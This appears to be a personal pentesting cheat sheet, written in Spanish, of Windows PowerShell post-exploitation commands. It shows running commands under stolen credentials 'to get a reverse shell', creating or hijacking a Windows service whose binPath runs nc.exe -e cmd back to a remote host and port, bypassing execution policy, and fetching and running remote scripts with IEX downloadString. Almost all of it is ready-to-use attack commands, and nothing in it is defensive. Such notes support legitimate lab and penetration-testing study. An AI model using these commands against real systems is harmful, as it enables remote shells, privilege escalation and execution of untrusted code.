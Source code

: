 ![[Pasted image 20230215173659.png]]

---

```powershell
# Buscar archivos en el sistema desde el directorio actual
> dir /r /s {name}
# Realizar una lectura del contenido de un archivo 
> type {file}
# Migrar a usuarios 

```


## Play with Scripts Block
```PowerShell
# Al tener credenciales, podriamos intentar ejecutar comandos con ese usuario para poder entablarnos una revershell
> $user = '{domain}\{name}'
# Guardamos en la variable user, el nombre del usuario
> $password = ConvertTo-SecureString '{password}' -AsPlainText -Force
# Guardamos en la variable password lo contraseña, ya que en texto claro nos traeria problemas.
> $cred = New-Object System.Management.Automation.PSCredential($user, $password)
# Creamos la credencial en la variable cred.
> Invoke-Command -ComputerName {computer_name} -Credential $cred -ScriptBlock { "command" }
```


## Create Reverse Shell Service
```powershell

> sc.exe create foo binPath="C:\Users\Dobliuw\Desktop\nc.exe -e cmd {RHOST} {RPORT}"
```


## Manipulate Service Settings to Execute Reverse Shell
```powershell

> sc.exe config VMTools binPath="C:\Users\dobliuw\Desktop\nc.exe -e cmd {RHOST} {RPORT}"
```

  
## Start and Stop Service
```powershell
> sc.exe start {service}

> sc.exe stop {service}
```

  
## Download Files with Powershell
```powershell
> Invoke-WebRequest 'http://{dominio}/{recurso}' -OutFile ''
```

  
## Bypass Execution Policy
```powershell
> Set-ExecutionPolicy Bypass -Scope Process
```

  
## Interpret Powershell from Remote Server
```powershell

> IEX(New-Object Net.WebClient).downloadString('http://{dominio}/{recurso}')
```

```
